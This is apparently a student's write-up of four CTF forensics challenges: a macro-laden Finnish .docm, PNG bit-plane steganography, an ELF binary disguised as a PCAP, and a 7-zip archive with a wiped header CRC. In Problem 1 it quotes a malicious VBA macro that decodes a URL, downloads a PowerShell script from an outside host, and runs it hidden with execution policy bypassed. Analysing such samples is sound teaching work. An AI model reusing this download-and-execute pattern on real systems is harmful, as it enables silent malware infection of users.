

This document contains the write-ups for the four challenges of **Assignment 4**.

| Problem ID | Lab Name     | Captured Flag                          | Steps                                                                                                                                                                                                                                                                                                                           |
| ---------- | ------------ | -------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Problem 1  | dossier_101  | `fsuCTF{1_kn0w_n0th1n3_4b0u7_f1nl4n6}` | - Analyze the .docm file using `olevba` to find an obfuscated macro.<br>- XOR-decode the Base64 string within the macro to retrieve a URL for a PowerShell script.<br>- Extract a hex payload from the script using text steganography.<br>- Decrypt the hex payload using AES-128-CBC with the Key and IV found in the script. |
| Problem 2  | Schrodinger  | `fsuCTF{d0_n07_ob53rv3}`               | - Perform bit-plane analysis on the PNG image using `zsteg` .<br>- **Interleave** the character strings extracted from the Red and Blue channels to form the flag.                                                                                                                                                              |
| Problem 3  | Orb 404      | `fsuCTF{Magic_Orb}`                    | - Identify that the file is actually a Linux **ELF binary** mislabeled as a PCAP capture.<br>- Use `hexedit` to fix the file header by changing the **magic bytes** to `7F 45 4C 46`.<br>- Grant execution permissions and run the binary to output the flag.                                                                   |
| Problem 4  | Fix-It-Felix | `fsuCTF{3v3ry0n3_63t5_C4k3}`           | - Identify a corrupted **Start Header CRC** in the 7-zip archive using `xxd`.<br>- Calculate the correct CRC32 using a Python script and patch the header in **Little Endian** format.<br>- Extract the archive using a hidden string found in the file metadata as the password.                                               |

---

### ==PROBLEM 1== - dossier_101
The challenge provides a document named `Valtioneuvoston_asetus_101-2026.docm`.  Since it's a `.docm` file, we are likely looking at a macro-based forensics challenge.

#### 1. Analysis
I started by checking the file type to confirm what I was dealing with.


A `.docm` file is essentially a ZIP container that includes a `vbaProject.bin` file containing macros. I tried running `strings` to see if the flag was just hidden in plaintext, but it returned nothing useful.

I used `olevba` to see if there was any hidden code. The output revealed a suspicious macro named `mekaniikka`:

```bash
oleva Valtioneuvoston_asetus_101-2026.docm
```

```vb
z = "HB0RBBxMSl0PCgwMBhcEFwkeRxAaGFwZBhcADgRLAhha"
c = "tietoverkkoturvallisuus"
...
resultChar = z_p(i) Xor keyChar
...
x.Open "GET", result, False
x.send
...
Call Shell("powershell -ex bypass " & Environ("APPDATA") & "\..\Local\Temp\file.ps1", vbHide)
```

 The macro uses the key `tietoverkkoturvallisuus` (cybersecurity) to XOR the Base64 string `z`. I wrote a quick Python script to reverse this:

```python
import base64
z = "HB0RBBxMSl0PCgwMBhcEFwkeRxAaGFwZBhcADgRLAhha"
c = "tietoverkkoturvallisuus"
z_p = base64.b64decode(z)
url = "".join(chr(z_p[i] ^ ord(c[i % len(c)])) for i in range(len(z_p)))
print(url) 
```

After decoding z with xor, the output was: `https://dacxserver.com/mortar.ps1`

#### 2. Solution Strategy
Downloading `mortar.ps1` revealed a highly obfuscated PowerShell script. It didn't look like standard code; it contained a massive block of text about Finland's history and an array of integers.

```powershell
${_} = "Finland, [a] officially the Republic of Finland..."
${__} = @(587,13,1166,18,1345,17,1805,13,1917,13,2125,11,2577,11)
${___} = ""; for($x=0; $x -lt ${__}.Count; $x+=2){ ${___} += ${_}.Substring(${__}[$x], ${__}[$x+1]) }
${k} = "8329bcdd9aff87c913257312abcdff90"
${i} = "1337deadbeefcafe1337beefbeefcafe"
...
${cA}.Key = ${O2}; ${cA}.IV = ${O3}
```

This script uses **Text Steganography**. The real encrypted data is hidden inside the "Finland" paragraph. The array `${__}` contains pairs of `(index, length)` used to pluck specific characters from the text to form a hex string. Once reconstructed, it uses **AES-128-CBC** to decrypt the final payload.

#### 3. Execution and Flag
I wrote an extraction script to mimic the PowerShell logic:

```python
import re

# Read the file
with open("mortar.ps1", "r") as f:
    data = f.read()

# Extract the big text block
text_match = re.search(r'\${_}\s*=\s*"(.*?)"', data, re.DOTALL)
big_text = text_match.group(1)

# Indices from the script
indices = [587,13, 1166,18, 1345,17, 1805,13, 1917,13, 2125,11, 2577,11]

# Rebuild the Hex
hex_payload = ""
for i in range(0, len(indices), 2):
    hex_payload += big_text[indices[i]:indices[i]+indices[i+1]]

print(f"Extracted Hex: {hex_payload}")
```

The output was: `8729bfb319970cd315ca71e16808882156680e71232ea5ef3fc44d08c4632ecc782689c57b9c87b5c28c044e569c8543`.

I used `openssl` to decrypt this hex string, using the Key and the Initialization Vector found in the PowerShell script:
- **Key:** `8329bcdd9aff87c913257312abcdff90`
- **IV:** `1337deadbeefcafe1337beefbeefcafe`

 
- `xxd -r -p`: Converts the plain hex string into actual binary data.
-  `openssl enc -aes-128-cbc`: Tells OpenSSL to use the AES algorithm in Cipher Block Chaining mode.
-  `-d`: Decrypt.
-  `-K` and `-iv`: Provide the hex secrets found in the script.

Flag:  `fsuCTF{1_kn0w_n0th1n3_4b0u7_f1nl4n6}`

---

### ==PROBLEM 2== - Schrodinger
This challenge presents us with a single PNG image of a cat in a box. The prompt given was: _"I am uncertain as to the solution, time to brute force."_ This suggestes that some form of brute-forcing would be required to find the flag.

#### 1. Analysis
I started with file to check if the image was really a PNG.


The prompt mentioned "brute force," so my first instinct was to try `stegseek` using the `rockyou.txt` wordlist to check if there was an archive hidden inside using `steghide`.


>It failed because `steghide` only works with JPG/BMP.

Looking closely at the image `Schrodinger.png`, I noticed a strange row of colored pixels in the top-left corner (both horizontally and vertically). This indicates that data has been injected into the pixel values themselves.


#### 2. Solution Strategy and Flag
Since the "password brute force" path was a dead end, I shifted my strategy toward **bit-plane analysis**.

I ran `zsteg -a Schrodinger.png` to perform an exhaustive search of data hidden in the color bits. The output was massive, but three lines stood out:

```
b8,r,msb,xy .. text: "fuT{0n7o5r3666"
b8,g,msb,yx .. text: "fsuCTF{https://youtu.be/Cr14T-pZnbc}---"
b8,b,msb,xy .. text: "sCFd_0_b3v}"
```

The green channel gave me a YouTube link: `https://youtu.be/Cr14T-pZnbc`. Opening the link led to the song **"Blood Gulch Blues"** by the band Trocadero, the theme song for _Red vs. Blue_. The lyrics start with:

<center>"Roses are red, violets are blue..."</center>

The challenge is telling us to combine the **Red** channel and the **Blue** channel data found by `zsteg`.

I took the strings from the Red and Blue channels and interleaved them (taking one character from Red, then one from Blue):

- **Red (R):** `f u T { 0 n 7 o 5 r 3 6 6 6`
- **Blue (B):** `s C F d _ 0 _ b 3 v }`

Following this logic, the message reveals the flag.


Flag: `fsuCTF{d0_n07_ob53rv3}`

---

### ==PROBLEM 3== - Orb 404
This challenge presents us with a mysterious file named `Orb`. According to the prompt, the "orb" is no longer working, and we are tasked with fixing it to retrieve the flag.

#### 1. Analysis
I started by performing basic reconnaissance using `file` to understand what I was dealing with.


> The system identified the file as a **PCAP capture file**.

To verify if this was actually a network capture, I ran `strings Orb` to look for human-readable text. What I found contradicted the PCAP identification:

- **Dynamic Linker:** I saw `/lib64/ld-linux-x86-64.so.2`.
- **C++ Symbols:** There were numerous references to C++ standard libraries, such as _`ZSt4cout` and `libstdc++.so.6`.
- **GLIBC Versions:** References to `GLIBC_2.34` and `GLIBCXX_3.4` appeared.
- **Compiler Info:** I found `GCC: (Ubuntu 13.3.0-6ubuntu2~24.04) 13.3.0.`
- **Interesting Function:** I noticed the function `_Z9printFlagv`.
- **Success Message:** The string *"You pondered your orb and found a flag"* was also present.

All this evidence suggests that it is a a Linux **ELF** *(Executable and Linkable Format)* binary.

#### 2. Solution Strategy
The goal was to make Linux correctly identify the file as what it actually is: an ELF executable. To do so, we needed to change the _magic number_ (the first four bytes) from the PCAP value (`D4 C3 B2 A1`) to the ELF value (`7F 45 4C 46`).

#### 3. Execution and Flag
I used `hexedit` to modify the file header. I located the first four bytes (`D4 C3 B2 A1`) and overwrote them with `7F 45 4C 46`.


After saving the changes, I ran the `file` command again to see if the "fix" worked.


Finally, I added execution permissions with `chmod +x Orb` and ran the program, obtaining the flag.


Flag:  `fsuCTF{Magic_Orb}`

---

### ==PROBLEM 4== - Fix-It-Felix
This challenge presents us with a file named *"broken"*. The premise is based on the movie Wreck-It Ralph: Ralph has sabotaged a file, and as "Felix," our job is to repair it and retrieve the hidden flag.

#### 1. Analysis
I started by performing basic reconnaissance using `file` to understand what I was dealing with.


The system recognizes it as a **7-zip archive**, but the challenge description implies it is "broken." Simply trying to extract it throws an error: 


To understand _how_ it was broken, I needed to look at its internal structure. I used `xxd` to view the first few bytes (the header).


By analyzing the output we can observe that the first 6 bytes `37 7a bc af 27 1c` are the correct signature for a 7z file. However, at offset `0x08`, I saw `ffff ffff`. In 7-zip structures, this field is the **Start Header CRC**. Having all `F` means the checksum was likely wiped out or overwritten to prevent the archive from opening.

#### 2. Solution Strategy
A 7-zip Start Header CRC is a CRC32 check of the 20 bytes that follow it (from offset `0x0C` to `0x1F`). If those 20 bytes are correct, I can calculate the expected CRC and replace the `ffff ffff`.

With a fixed header, I will try again using `7z` to extract the final flag.

#### 3. Execution and Flag
I wrote a quick Python script to calculate the CRC32 of the 20 bytes following the corrupted field (`7e230000000000002300000000000000102a6e72` from the hex dump).

```python
import binascii

data = bytes.fromhex("7e230000000000002300000000000000102a6e72")
crc = binascii.crc32(data) & 0xffffffff
print(f"Correct CRC: {hex(crc)}")
```

The output of the script shows that the CRC for our "broken" file should be `0x1324b0f7`


Using `hexedit`, I navigated to offset `0x08` and replaced `ff ff ff ff` with `f7 b0 24 13`.


> Note that I had to write it in **Little Endian** format (least significant byte first), which is how 7-zip stores these values.

After the fix, I tried extracting, but the file asks for a password that we don't have.


I looked at the archive's metadata without extracting it using the "List" command (`7z l -slt broken`) with technical details:

```bash
$ 7z l -slt broken
...
Path = files/Flag.png
Encrypted = +
...
Path = files/therecouldnotbeabetterpassword
Size = 32
```

I noticed a file named `therecouldnotbeabetterpassword`. I tried using that long string as the password using:

```bash
7z x broken -ptherecouldnotbeabetterpassword
```

The command successfully uncompressed the 7z file, and I could get the flag hidden in the `Flag.png` file inside it.



Flag: `fsuCTF{3v3ry0n3_63t5_C4k3}`
